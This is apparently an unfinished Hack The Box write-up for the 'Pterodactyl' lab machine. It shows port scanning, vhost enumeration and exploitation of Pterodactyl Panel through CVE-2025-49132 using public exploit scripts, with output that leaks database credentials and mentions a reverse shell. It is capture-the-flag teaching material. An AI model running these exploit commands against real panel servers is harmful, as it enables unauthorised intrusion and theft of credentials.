



## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


we can see port `22` with ssh and port `80` with nginx http server.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOouXDOkVrDkob+tyXJOHu3twWDqor3xlKgyYmLIrPasaNjhBW/xkGT2otP1zmnkTUyGfzEWZGkZB2Jkaivmjgc=
|   256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJTXNuX5oJaGQJfvbga+jM+14w5ndyb0DN0jWJHQCDd9
80/tcp open  http    syn-ack ttl 63 nginx 1.21.5
|_http-title: My Minecraft Server
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.21.5
```

I added `pterodactyl.thm` to my `/etc/hosts`.

### ...

I started with manually checking the website, we can see some simple website:



I added `play.pterodactyl.htb` to my `/etc/hosts`, and tried to see if there is something interesting, nothing. It simply redirects me to the original domain:



Then, I saw the `/changelog.txt`, which gave me this change log file:
```txt
MonitorLand - CHANGELOG.txt
======================================

Version 1.20.X

[Added] Main Website Deployment
--------------------------------
- Deployed the primary landing site for MonitorLand.
- Implemented homepage, and link for Minecraft server.
- Integrated site styling and dark-mode as primary.

[Linked] Subdomain Configuration
--------------------------------
- Added DNS and reverse proxy routing for play.pterodactyl.htb.
- Configured NGINX virtual host for subdomain forwarding.

[Installed] Pterodactyl Panel v1.11.10
--------------------------------------
- Installed Pterodactyl Panel.
- Configured environment:
  - PHP with required extensions.
  - MariaDB 11.8.3 backend.

[Enhanced] PHP Capabilities
-------------------------------------
- Enabled PHP-FPM for smoother website handling on all domains.
- Enabled PHP-PEAR for PHP package management.
- Added temporary PHP debugging via phpinfo()
```

The most interesting part here is the `Pterodactyl Panel v1.11.10`, which after some googling seems to have some critical vulnerability.

I did hostname enumeration using `gobuster`, and found the panel at `panel.pterodactyl.htb` which I added to my `/etc/hosts`.
```bash
┌──(agonen㉿kali)-[~/htb/Pterodactyl]
└─$ gobuster vhost -u 'http://pterodactyl.htb/' --ad -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --xs 302
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://pterodactyl.htb/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
panel.pterodactyl.htb Status: 200 [Size: 1897]
```

Now, we can visit the panel:


Next step, I want to to execute the exploit found at [https://www.exploit-db.com/exploits/52341](https://www.exploit-db.com/exploits/52341).

We can simply download it using the util `searchsploit`;
```bash
┌──(agonen㉿kali)-[~/htb/Pterodactyl]
└─$ searchsploit -m 52341
  Exploit: Pterodactyl Panel 1.11.11 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/52341
     Path: /usr/share/exploitdb/exploits/multiple/webapps/52341.py
    Codes: CVE-2025-49132
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/agonen/htb/Pterodactyl/52341.py
```

This is what I got when executing the PoC:
```bash
┌──(agonen㉿kali)-[~/htb/Pterodactyl]
└─$ python3 52341.py http://panel.pterodactyl.htb/                                   
http://panel.pterodactyl.htb/ => pterodactyl:PteraPanel@127.0.0.1:3306/panel
```

This exploit didn't give me full `RCE`, I used this repo instead [https://github.com/thealchimist86/CVE-2025-49132-Pterodactyl-Panel-RCE](https://github.com/thealchimist86/CVE-2025-49132-Pterodactyl-Panel-RCE)
```bash
python3 exploit.py --target panel.pterodactyl.htb --cmd "id"
```



Now, I pasted the penelope payload for reverse shell:

### Privilege Escalation to Root

